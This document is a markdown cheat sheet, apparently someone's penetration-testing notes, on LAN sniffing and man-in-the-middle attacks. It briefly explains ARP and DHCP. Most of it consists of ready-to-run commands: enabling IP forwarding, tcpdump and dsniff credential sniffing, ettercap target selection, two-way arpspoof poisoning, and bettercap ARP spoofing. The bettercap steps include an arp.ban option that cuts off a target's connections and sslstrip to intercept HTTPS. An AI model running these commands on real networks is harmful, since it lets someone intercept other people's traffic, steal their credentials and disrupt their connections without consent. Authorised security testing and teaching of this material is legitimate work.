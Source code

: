 > Intercepting traffic for sniffing or MITM attacks on a client

## Basics

| Service | Ports |
| - | - |
| `arp` | no port, as its on layer 2 |
| `DHCP` | dst: 67(udp), src: 68(udp) |

### ARP
> Adress Resolution Protocol, translation of IP to MAC addresses

If an IP packet is being sent, the client checks it's `ARP` table and if the IP is there places the linked MAC into the layer 2 dst address field in the frame. If the IP cannot be resolved an `ARP` request is sent in the LAN.

Request contains: source IP, source MAC, dst IP, dst MAC `FF:FF:FF:FF:FF:FF` (indicates broadcast msg) of the frame -> the `ARP` request itself has `00:00:00:00:00:00` as dst mac. 

`ARP` requests are triggered when:
- Comm. inside LAN (get target MAC)
- Comm. over LAN boundary (get GW MAC)
- FWD Router 2 Router
- Router delivers packet to destination host  

| `gratuitious ARP` |
| - |
| Meaning packets are sent pre-emptively from a host with his information to the broadcast address, so all paricipants get the info |

### DHCP
> Service to supply IP addresses to clients in a broadcast domain

Communication takes place in a broadcast domain, also the client initiates the communication.  

1. client: `dhcpdiscover` - requesting an IP via broadcast message
2. server: `dhcpoffer` - answer with IP and lease time, again via broadcast
3. client: `dhcprequest` - answer to the chosen server (still broadcast)
4. server: `dhcpack` - confirm the IP to the client (last broadcast)

Above messages are for IPv4

### IP forwarding

> in order to intercept the traffic without it being dropped, the packets we intercept from other clients must still be forwarded from our machine. 
> For this we can enable IP forwarding on our machine to have them intercepted and forwarded as if nothing has happened...

```bash
sudo -i
# enable ip forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
```


## Sniffing
> Bevore or shortly after an attempt for a MITM attack is made, the traffic should either be saved or sniffed in realtime.

- `wireshark` --> obviously able to store/dump/analyze the traffic at runtime or later on
- `tcpdump` 

```bash
sudo tcpdump -i <interface> -w <pcapfile>  # Intercept traffic and store in file
sudo tcpdump -i <interface> -xxAXXSs 0 dst <targetIP>  # Intercept, filter on dst address and hex+ASCII output on console
```


- `dsniff` --> does not always show everything...

```bash
dsniff -i <interface>  # intercepts traffic on interface and shows sniffed credentials and stuff
```


-> Most of the intercepting tools of MITM attacks also have the ability to sniff/analyze/display the traffic intercepted (see next section)

## MITM tools

> Utilizing `arp` or `DHCP` spoofing, these tools allow the placement of the attacker inbetween to hosts to intercept traffic and analyze it (mostly unencrypted traffic).

### ettercap

```bash
sudo ettercap -G  # start GUI mode
```

`ettercap` allows for 2 modes
- unified: sniffs on all packets on the specified interface
- bridged: sniffs on specified interface and forwards it to the 2nd one specified  

1. Scan for live hosts on the network
	- GUI: `Menu -> Hosts -> Scan for hosts`
2. Display found hosts
	- GUI: `Menu -> Hosts -> Host list`
3. Select the target host(s) and
	- GUI: `Select host -> Add to Target {1,2}` 

**Important:** As all traffic of the targets will be processed, add them sparingly

4. Start the attack
	- GUI: `Globe button -> <attackType>` 

> The two hosts which are ought to be attacked, should be placed in different target groups!

### arpspoof

> Poisons the arp table of the targeted host(s) to place the attacker interface with its MAC instead of the other conversational partner (and vice versa to have full duplex interception)

```bash
# Terminal 1
sudo arpspoof -i <interface> -t <targetIP> <targetIP2>

# Terminal 2
sudo arpspoof -i <interface> -t <targetIP2> <targetIP>
```

Both must be run, otherwise the traffice is only intercepted in one way.  

**important:** You need to have ip forwardings set (see [[Sniffing and MITM#IP forwarding]]), otherwise the intercepted traffic will end at your machine. With forwarding on you are forwarding the packets to their proper destination (while also dumping it via tcpdump or wireshark).

- Also has no capability of analyzing or saving the traffic either use `tcpdump` or `wireshark` to store intercepted traffic

### bettercap

> Powerful tool for analyzing and intercepting traffic in a WIFI environment or LAN

0. Start `bettercap` in cli mode

```bash
sudo bettercap -iface <interface>
```

1. Discover hosts in the network in order to include them in attacks/analysis

```bash
> net.recon on  # enable recon module
> net.probe on  # enable probing and wait few seconds for discovery of hosts
> net.probe off # disable probing
> net.show      # show discovered hosts
```

2. Configure and start arp spoofing

```bash
> set arp.spoof.targets <targetIP>  # or multiple (comma seperated) / iprange
> set arp.spoof.fullduplex true # spoofs also the gateway so MITM can be done
> arp.ban on    # target conectivity will no longer work (crashes connections)
> arp.spoof on  # exploit
```

3. Enable local sniffing and check intercepted traffic

```bash
> net.sniff on  # enables sniffing and display of interesting stuff in cli
> set net.sniff.output /root/mitm.pcap  # store the traffic
> help  # show currently enabled modules
```

4. Enable intercepting of https traffic via ssl stripping

```bash
> set http.proxy.sslstrip true  # enable sslstrip for https interception
> http.proxy on  # turn http proxy on
```

**INTERESTING:** You may use `arpspoof` for `arp` poisoning but have sniffing on in `bettercap` to analyze the traffic.

Also for help use either the autocompletion of the tool (`tab` is your friend) or use the `help` command:

```bash
> help arp.spoof
```

